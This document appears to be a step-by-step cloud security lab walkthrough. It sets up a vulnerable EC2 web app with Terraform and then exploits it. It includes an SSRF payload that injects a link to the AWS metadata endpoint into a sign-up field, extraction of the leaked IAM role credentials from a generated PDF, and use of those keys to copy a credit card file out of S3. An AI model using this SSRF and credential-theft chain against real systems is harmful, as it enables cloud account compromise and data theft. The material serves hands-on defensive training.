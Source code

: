 ### EC2 Compromise 

---

- Step 1: Open terminal

- Step 2: Change Directory

```bash
cd /root/COMPROMISE_EC2/
```

- Step 3: Run `terraform init` to install related packages.

```commanline
terraform init
```

- Step 4: Run `terraform apply -auto-approve`

```commanline
terraform apply -auto-approve
```
Step 5: Open browser and access the EC2 DNS at port 3000
```commanline
http://ec2-x-x-x-x.us-west-2.compute.amazonaws.com:3000
```

- Step 6: Click on sign up and fill the fields at Remarks please specify

```commanline
<link rel=attachment href="http://169.254.169.254/latest/meta-data/iam/security-credentials/ssrf_role">
```


- Step 7: Now Login using the credentials and click on Generate PDF and download the PDF

```commanline
http://ec2-x-x-x-x.us-west-2.compute.amazonaws.com:3000/genpdf
```

- Step 8: Do a "binwalk on `pdf name`"

```commanline
binwalk -e genpdf.pdf
```
-step 9: It will extract the pdf in zip format


-step 10: Extract the zip and see one of the file has a ssrf_role credentials

- Step 11: Copy AccessKey, Secretkey and Session Token

- Step 12: Type the following steps in the terminal at the specific Lab location

  - `export AWS_ACCESS_KEY_ID=<copied AccessKeyId>`
  - `export AWS_SECRET_ACCESS_KEY=<copied SecretAccessKey>`
  - `export AWS_SESSION_TOKEN=<copied SessionToken>`

- Step 13: List the s3 buckets

```commanline
aws s3 ls
```
- step 14: Access the objects in the bucket
```commanline
aws s3 ls s3://v5v0ku8akk-ssrf
aws s3 cp s3://v5v0ku8akk-ssrf/creditcardnumbers.txt stealcredicard.txt
```


### Teardown

- Step 1: To delete all the resources `terraform destroy -auto-approve`

```bash
cd /root/COMPROMISE_EC2/
```

```commanline
terraform destroy -auto-approve
```



